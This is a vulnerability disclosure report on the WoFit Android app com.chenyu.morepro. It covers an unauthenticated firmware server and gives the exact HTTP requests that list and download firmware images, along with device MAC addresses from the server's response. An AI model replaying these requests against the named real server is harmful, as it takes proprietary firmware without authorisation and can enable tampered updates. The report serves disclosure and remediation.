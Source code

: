 # Vulnerability Report - com.chenyu.morepro- Incorrect Access Control

**Product:** `com.chenyu.morepro` 

**Vendor:** [WoFit](http://wo-smart.com/)

**Version:** 7.2.3

**Vulnerability Type:** Incorrect Access Control

**Severity:** High

## Description

The `com.chenyu.morepro` , developed by **WoFit**, suffers from an Incorrect Access Control vulnerability during the device firmware update process. The app uses HTTPS requests to download firmware updates. By reverse engineering the app, it was possible to identify the firmware download mechanism and the download link. Dynamic testing revealed that the vendor's firmware server lacks proper access control, leading to **firmware leakage**.

## Reproduction Steps

1. The `queryDeviceOTAConfigInfo` method in the `QueryDeviceInfoService` class  and the `BaseUrl` String value in the `FitupHttpUtil` class provide the necessary URL and other information required for the HTTP request. Static reverse engineering allows for the reconstruction of the complete request as follows:

   ![image-20241003102958145](https://s2.loli.net/2024/10/03/7ZcAzEeKhPUQaB4.png)

   ![image-20241003103409408](https://s2.loli.net/2024/10/03/V4P9sMIeTz7jFU3.png)

2. Sending this URL request to the firmware server results in a direct response containing the latest firmware information as follows:

   > Request

   ```http
   GET https://apisvr.wo-smart.com:7443/static/version_android.json HTTP/1.1
   Host: apisvr.wo-smart.com:7443
   Content-Type: text/plain
   Content-Length: 0
   ```

   > Response:

   ```http
   HTTP/1.1 200 OK
   Date: Thu, 03 Oct 2024 02:25:04 GMT
   Server: Apache/2.4.18 (Ubuntu)
   Access-Control-Allow-Origin: *
   Access-Control-Allow-Methods: POST, OPTIONS
   Access-Control-Allow-Headers: Content-Type
   Last-Modified: Mon, 30 Sep 2024 09:21:32 GMT
   ETag: "40da-62352bb0eea96"
   Accept-Ranges: bytes
   Content-Length: 16602
   Vary: Accept-Encoding
   Content-Type: application/json
   
   {
       "32510&SPECIAL_OTA&TK79": {
           "versionCode": 60310,
           "versionName": "5.6.3.10",
           "assignDevice": true,
           "deviceMacs": [
               "66:06:4c:00:0b:9d",
               "test"
           ],
           "upgradeDes": "TK79 upgrade",
           "fileUrl": "static/app_MP_TK79_5.6.3.10_ded9c2aa-6ad981c10c63b9b8a813444b860a1eae.bin"
       },
       "32510&OTA&TK79": {
           "versionCode": 60310,
           "versionName": "5.6.3.10",
           "assignDevice": true,
           "deviceMacs": [
               "66:06:4C:00:0B:89"
           ],
           "upgradeDes": "TK79 upgrade",
           "fileUrl": "static/app_MP_TK79_5.6.3.10_ded9c2aa-6ad981c10c63b9b8a813444b860a1eae.bin"
       },
        ......
   ```

   Then, contact the `fileUrl` with `BaseUrl`, we can access the firmware directly.

   ```HTTP
   GET https://apisvr.wo-smart.com:7443/static/app_MP_TK79_5.6.3.10_ded9c2aa-6ad981c10c63b9b8a813444b860a1eae.bin
   HTTP/1.1
   Host: apisvr.wo-smart.com:7443
   Content-Type: text/plain
   ```

3. Consequently, the unprotected firmware can be directly downloaded using this information.

   ![image-20241003103734008](https://s2.loli.net/2024/10/03/2L6UoOzJwsuqWhb.png)
   
   In total, we successfully downloaded 38 firmware by exploiting this vulnerability.


## Impact

An attacker can exploit this vulnerability to:

* Download the latest firmware before it is officially released.
* Analyze the firmware for vulnerabilities or proprietary information.
* Create modified firmware images with malicious code.
* Distribute compromised firmware updates to unsuspecting users.

## Remediation

* Implement proper access control on the firmware server, such as device ID and user ID verification.
* Enhance the app's firmware update mechanism to include authentication credentials in the requests.


## Disclaimer

This vulnerability report is provided for informational purposes only and should not be used for any malicious activities. The author is not responsible for any misuse of the information contained herein.